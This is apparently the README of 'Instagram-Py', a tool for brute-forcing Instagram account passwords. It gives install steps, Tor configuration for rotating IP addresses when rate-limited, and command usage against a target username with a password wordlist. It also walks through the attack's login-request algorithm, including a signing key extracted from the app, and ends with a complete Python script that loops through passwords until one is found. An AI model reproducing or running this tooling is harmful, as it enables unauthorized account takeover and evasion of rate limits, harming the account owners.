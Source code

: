 ---------------------------------------------------------- CARA PAKAI ----------------------------------------------------------

Instalasi Upgrading Instagram-Py dengan pip

$ sudo pip3 install instagram-py --upgrade 
$ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip 
$ sudo pip3 install requests --upgrade 
$ sudo pip3 install requests[socks] 
$ sudo pip3 install stem 
$ sudo pip3 install instagram-py 
$ instagram-py # installed sukses 
$ instagram-py --create-configuration Configuring Instagram-Py
$ instagram-py --create-configuration $ # OR $ instagram-py -cc
$ instagram-py --create-configuration --default-configuration $ # OR $ instagram-py -cc -dc

Configuring Tor server to open control port

open your tor configuration file usually located at /etc/tor/torrc

$ sudo vim /etc/tor/torrc # open it with your text editor

search for the file for this specific section

The port on which Tor will listen for local connections from Tor
controller applications, as documented in control-spec.txt.
#ControlPort 9051

uncomment 'ControlPort' by deleting the # before 'ControlPort' , now save the file and restart your tor server

now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json Usage

Finally , now you can use instagram-py!

Instagram-Py Scripting lets you run Custom Python Scripts Inside Instagram-Py!

Never Run Instagram-Py with Multiple Instance! , Use Instagram-Py Scripting Instead!

$ instagram-py -u your_account_username -pl path_to_password_list

Note: Without the -c optional argument , instagram-py will not continue the attack

usage: instagram-py [-h] [--username USERNAME] [--password-list PASSWORD_LIST] [--script SCRIPT] [--inspect-username INSPECT_USERNAME] [--create-configuration] [--default-configuration] [--countinue] [--verbose]

optional arguments: -h, --help show this help message and exit --username USERNAME, -u USERNAME username for Instagram account --password-list PASSWORD_LIST, -pl PASSWORD_LIST password list file to try with the given username. --script SCRIPT, -s SCRIPT Instagram-Py Attack Script. --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME Username to inspect in the instagram-py dump. --create-configuration, -cc Create a Configuration file for Instagram-Py with ease. --default-configuration, -dc noconfirm for Instagram-Py Configuration Creator! --countinue, -c Countinue the previous attack if found. --verbose, -v Activate Verbose mode. ( Verbose level )

example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

Report bug, suggestions and new features at https://github.com/radenmuhammadimam/Ngehack-Instagram

Instagram-Py Scripting

Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks. This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

You Can Always View the Cracked Passwords Using this command!

$ instagram-py -i instatestgod__ 
$ # Displays record if it is cracked in the past!

Algorithm

Instagram-Py uses a very simple algorithm for checking passwords efficiently , this section is dedicated for those who wish to recreate this program in any other language.

You can see this live when you run the tool in max verbosity

$ instagram-py -vvv -u instatestgod__ -pl password_list.lst

You can also use Instagram-Py as a module , so that you can also use it in your script What we do

Step 1: Get the magic cookie , which is used to verify device integrity!

Getting the magic cookie is the simplest job , all we need to do is send a get request to https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid= , where the guid get parameter is a random 32 character string. The random 32 character string can be generator using python's simple uuid library , to be specific v4 of UUID. So finally we just have to request the url https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=800e88b931bf491fa3b4a7afa4e679eb and get the cookie named csrftoken , if we observe the response header we could see that our cookie only expires next year the same day. So by this we only have to make this request once and can use it for a year! How vulnerable is that?...

Step 2: Build a post request with Instagram's signature.

This part is simple but may be difficult to setup , first i need to get instagram's signature which is only present in their free apk from google play , Remember our Strength can be our Weakness , All i have to do reverse engineer the apk and find the signature, lets call it ig_sig.

ig_sig = 4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178 ig_version = 4

Instagram uses HMAC Authentication for login stuff, so lets use python's hmac library. But first we have to build our body which will be encoded in json for it to actually sign with ig_sig , So the post body looks likes this...

phone_id = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS> _csrftoken = <THE MAGIC COOKIE THAT WE GOT!> username = guid = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS> device_id = android-<RANDOM 16 CHARACTER STRING> password = login_attempt_count = 0

The above will be encoded to JSON , So to test the password we have to post the data to this url https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=. .

: using HMAC , sign our json encoded data with ig_sig and return a hexa value.

: the same data in json but we url encode so that it goes properly to insta!

So to test a account with username as USERNAME and password with PASSWORD we simply request this url https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=bc90e1b7d430f39152e92b4e7d517bfb231dbe0515ed2071dc784cf876e301c3.%7B%22phone_id%22%3A%20%2232abb45c-f605-4fd7-9b5e-674115516b90%22%2C%20%22_csrftoken%22%3A%20%22PyMH2niVQrk41UIBW0lKilleG7GylluQ%22%2C%20%22username%22%3A%20%22USERNAME%22%2C%20%22guid%22%3A%20%2267ca220c-a9eb-4240-b173-2d253808904d%22%2C%20%22device_id%22%3A%20%22android-283abce46cb0a0bcef4%22%2C%20%22password%22%3A%20%22PASSWORD%22%2C%20%22login_attempt_count%22%3A%20%220%22%7D

Step 3: With the json response and response code , we determine the password is correct or wrong.

if We get response 200 then the login is success but if we get response 400 , We inspect the json data for clues if it is the correct password or invalid request or too many tries. So we inspect the message from instagram json response!

Message = Challenge Required , then the password is correct but instagram got some questions so we must wait until the user logs in and answer the question and if we are lucky they will not change the password and we could login in later(Most of the time people won't change the password!)

Message = The password you entered is incorrect. , then the password is incorrect for sure , try another.

Message as something like word invalid in it then , some other error so just try again, can happen because of wordlist encoding error which i ignored because all the worldlist have encoding error!

Message = Too many tries , Time to change our ip and loop but we don't want to change our magic cookie

Contribute anything you can to this repo (Issues | Pull request) , help is much appreciated.

Please Refer CONTRIBUTING for more information on contributing!

Using Instagram-Py as API

Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!

For some reason you wish not to use my software then you can use my software as a module and embed into your own software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

Follow the same installation method mentioned above to install Instagram-Py API.

This is a simple script to conduct a bructe force attack using instagram-py as a API.

#!/usr/bin/env python3 ''' This is the same thing that is in the init file of the command-line tool. ''' from InstagramPy.InstagramPyCLI import InstagramPyCLI from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH from InstagramPy.InstagramPyInstance import InstagramPyInstance from datetime import datetime

username = "TARGET ACCOUNT USERNAME" password = "PASSWORD LIST PATH"

appInfo = { "version" : "0.0.1", "name" : "Instagram-Py Clone", "description" : "Some Module to crack instagram!", "author" : "YourName", "company" : "YourCompany", "year" : "2017", "example" : "" }

cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)

'''

USE THIS IF YOU WANT
cli.PrintHeader() cli.PrintDatetime() ''' session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli) session.ReadSaveFile(True) # True to countinue attack if found save file. '''

USE THIS IF YOU WANT
cli.PrintMagicCookie(session.magic_cookie) '''

''' Defining @param cli = None will make Instagram-Py run silently so you can you use your own interface if you like. or if you want to use the official interface then declare like this

instagrampy = InstagramPyInstance(cli = cli , session = session)

'''

instagrampy = InstagramPyInstance(cli = None ,session = session) while not instagrampy.PasswordFound(): print('Trying... '+session.CurrentPassword()) instagrampy.TryPassword()

if instagrampy.PasswordFound(): print('Password Found: '+session.CurrentPassword())

exit(0)
